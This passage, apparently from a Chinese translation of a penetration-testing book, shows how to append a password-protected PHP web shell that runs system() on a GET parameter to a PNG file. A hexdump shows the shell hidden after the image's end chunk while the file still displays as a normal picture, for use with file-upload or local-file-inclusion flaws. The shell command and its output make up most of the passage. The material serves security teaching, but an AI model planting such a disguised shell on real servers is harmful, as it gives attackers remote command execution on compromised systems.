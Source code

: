 我们可以使用 `echo` shell 命令将 PHP 代码追加（`>>`）到我们的 `shell.png` 图片中：

```
root@kali:~# echo '**<?php if (md5($_GET["password"]) == "f1aab5cd9690adfa2dde9796b4c5d00d") { system($_GET["cmd"]); } ?>**' >> **shell.png**

```

我们之前见过这种透过的 shell，目前应该可以顺利运行。如果需要，我们可以将其替换为更高级的 shell，但对于我们的概念验证，这已经足够了。

如果我们使用 `hexdump` 检查 PNG shell 的内容，我们可以清楚地看到 PHP shell 被写入在 PNG 图片文件结构结束之后。

```
root@sol:~# hexdump -C shell.png
00000000  89 50 4e 47 0d 0a 1a 0a  00 00 00 0d 49 48 44 52  |.PNG........IHDR|
00000010  00 00 00 20 00 00 00 20  01 03 00 00 00 49 b4 e8  |... ... .....I..|
00000020  b7 00 00 00 04 67 41 4d  41 00 00 b1 8f 0b fc 61  |.....gAMA......a|
00000030  05 00 00 00 20 63 48 52  4d 00 00 7a 26 00 00 80  |.... cHRM..z&...|
00000040  84 00 00 fa 00 00 00 80  e8 00 00 75 30 00 00 ea  |...........u0...|
00000050  60 00 00 3a 98 00 00 17  70 9c ba 51 3c 00 00 00  |'..:....p..Q<...|
00000060  06 50 4c 54 45 ff c0 cb  ff ff ff 09 44 b5 cd 00  |.PLTE.......D...|
00000070  00 00 01 62 4b 47 44 01  ff 02 2d de 00 00 00 0c  |...bKGD...-.....|
00000080  49 44 41 54 08 d7 63 60  18 dc 00 00 00 a0 00 01  |IDAT..c'........|
00000090  61 25 7d 47 00 00 00 00  49 45 4e 44 ae 42 60 82  |a%}G....IEND.B'.|
000000a0  3c 3f 70 68 70 20 69 66  20 28 6d 64 35 28 24 5f  **|<?php if (md5($_|**
**000000b0  47 45 54 5b 22 70 61 73  73 77 6f 72 64 22 5d 29  |GET["password"])|**
**000000c0  20 3d 3d 20 22 66 31 61  61 62 35 63 64 39 36 39  | == "f1aab5cd969|**
**000000d0  30 61 64 66 61 32 64 64  65 39 37 39 36 62 34 63  |0adfa2dde9796b4c|**
**000000e0  35 64 30 30 64 22 29 20  7b 20 73 79 73 74 65 6d  |5d00d") { system|**
**000000f0  28 24 5f 47 45 54 5b 22  63 6d 64 22 5d 29 3b 20  |($_GET["cmd"]); |**
**00000100  7d 20 3f 3e 0a                                    |} ?>.|**

```

就所有意图和目的而言，这仍然是一个有效的 PNG 图片。大多数渲染软件应该不会有问题显示其内容，一个小的粉红色框，如下所示：

![LFI](img/B09238_05_03.jpg)
